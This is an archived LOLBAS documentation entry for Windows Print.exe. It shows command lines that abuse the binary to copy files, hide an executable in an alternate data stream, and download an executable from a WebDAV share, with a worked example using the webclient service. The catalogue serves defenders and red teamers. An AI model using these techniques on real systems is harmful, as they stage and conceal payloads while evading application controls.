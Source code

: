 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Print.exe

* Functions: Download, Copy, Add ADS

```
print /D:c:\ads\file.txt:file.exe c:\ads\file.exe     
     
print /D:C:\ads\CopyOfFile.exe C:\ads\FileToCopy.exe

print /D:c:\outfolder\outfile.exe \\webdavserver\folder\file.exe     
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
*

Resources:
* https://twitter.com/Oddvarmoe/status/985518877076541440
* https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410

Full path:
```
c:\windows\system32\print.exe
c:\windows\sysWOW64\print.exe
```

Notes:
Please note for example three: The oufolder needs to exist and the outfile.exe can't exist. Additionally webclient needs to be running
```
(from an administrator prompt)
net start webclient && print /D:c:\outfolder\outfile.exe \\live.sysinternals.com\tools\adexplorer.exe && net stop webclient
```


 
